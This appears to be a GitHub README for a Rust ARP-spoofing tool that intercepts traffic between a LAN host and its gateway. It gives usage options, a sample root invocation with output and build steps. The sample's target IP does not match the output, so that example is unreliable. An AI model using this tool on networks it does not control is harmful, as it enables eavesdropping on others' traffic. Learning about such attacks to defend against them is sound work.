 # arp-spoof


This is a minimal ARP-Spoofing tool written in **Rust language** using pcap.

This tool allows intercepting Ipv4 traffic between two hosts on the same network.
Typically between one machine and the internet gateway.

**This tool is for educational purposes only.**

## Features:

* 1 to 1 route poisoning
* save intercepted traffic as pcap file
* automatic Ipv4 forwarding

# Usage
```
Usage:
    ./arp-spoof [OPTIONS]

Minimal ARP spoofing tool written in rust.

optional arguments:
  -h,--help             show this help message and exit
  -i,--interface INTERFACE
                        interface name
  --own OWN             own ipv4 address (required until pcap allows ip
                        enumeration)
  --target TARGET       target ipv4 address
  --gateway GATEWAY     gateway ipv4 address
  --log-traffic         logs all target traffic to `save.pcap`
  -n,--no-forward       leave `/proc/sys/net/ipv4/ip_forward` untouched
  -v,--verbose          be verbose
  -V,--version          show version
```
A typical invocation would look like this. The arguments are pretty self-describing.
```
# ./arp-spoof --interface eth0 --own 192.168.0.33 --target 192.168.0.254 --gateway 192.168.0.1 --log-traffic
Own mac address for eth0 is: 95:8F:6F:17:36:71
[+] forwarding ipv4 traffic: true
Found 7E:FA:8B:B2:F5:8A at 192.168.0.16
Found 7C:0B:B6:94:11:6B at 192.168.0.1
[+] Poisoning traffic between 192.168.0.16 <==> 192.168.0.1
[*] Received: 3512, dropped: 0, if_dropped: 0
```
# Building

```
# cargo build
```
written with rust 1.5.0


## Linux

On Arch based Linux, install `community/rust`, `community/cargo` and `core/libpcap`. If not running as root, you need to set capabilities like so: ```sudo setcap cap_net_raw,cap_net_admin=eip path/to/bin```


## Rust Crate Dependencies

* pcap
* argparse
* nix
* time


# TODO:

* implement `n` to `m` route poisoning
* remove `--own` parameter as soon as rust-pcap allows ip enumeraation
